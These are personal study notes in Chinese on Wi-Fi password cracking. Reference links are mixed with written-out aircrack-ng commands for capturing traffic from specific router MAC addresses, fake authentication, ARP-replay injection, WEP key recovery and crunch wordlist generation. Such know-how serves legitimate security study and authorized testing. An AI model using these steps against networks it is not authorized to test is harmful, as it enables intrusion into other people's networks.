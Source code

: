 实践无线WI-FI破解
http://flamingosw.blogspot.com/2009/11/wi-fi.html
参考：
https://item.taobao.com/item.htm?spm=a230r.1.14.29.6e0453f8Pb5U6B&id=561146988224&ns=1&abbucket=1#detail

也还可以试一下这个，有更多可能的答案：（需要一个个试）
Wifi渗透测试：为什么aireplay-ng de-authentication不起作用？
https://answer-id.com/zh/63274967

https://www.howtogeek.com/167783/htg-explains-the-difference-between-wep-wpa-and-wpa2-wireless-encryption-and-why-it-matters/

### WEP cracking

深入解析无线WEP和WPA密码及破解原理
https://www.cnblogs.com/chinasun021/archive/2013/01/18/2866343.html
WEP/WPA/WPA2加密标准有什么区别？
https://blog.csdn.net/aristolto/article/details/79835652

airodump-ng --bssid 60:3A:7C:B3:ED:66 --write test1 wlan0
airodump-ng --channel 1 --bssid 60:3A:7C:B3:ED:66 --write test1 wlan0
aircrack-ng <file_name>
aircrack-ng test1.cap

80:89:17:19:25:26  -80        2        0    0   6   54e. WEP  WEP         TP-LINK_2526                                                        
 airodump-ng --channel 6 --bssid 80:89:17:19:25:26 --write wep wlan0

+ fakeauth
airodump-ng --bssid 80:89:17:19:25:26 --channel 6 --write fakeauth wlan0


ip addr 
取 wlan0的 mac

aireplay-ng --fakeauth 0 -a 80:89:17:19:25:26 -h xxx wlan0
-a router mac
-h wifi card mac

Aircrack-ng之Aireplay-ng命令
https://blog.csdn.net/qq_28208251/article/details/48115815
解除认证攻击（-0）、伪造认证攻击（-1）、交互式数据包重放攻击（-2）、手动ARP请求注入攻击（-3）、ARP请求重放注入攻击（-4）

aireplay-ng的攻擊模式
http://atic-tw.blogspot.com/2014/01/aireplay-ng6.html

Aircrack-ng 中文使用教程/Aireplay-ng
https://www.wangan.com/docs/1398

+ arpreplay
aireplay-ng --arpreplay -b <bssid> -h <wifi-card> wlan0
aireplay-ng --fakeauth 0 -a 80:89:17:19:25:26 -h xxx wlan0

这两个应该是可以回事破解WEP密码用的

字典破解：
crunch <min> <max> <char> -t <pattern> -o file
crunch 8 10 123!'^+% -t m@@@p -file wordlist 
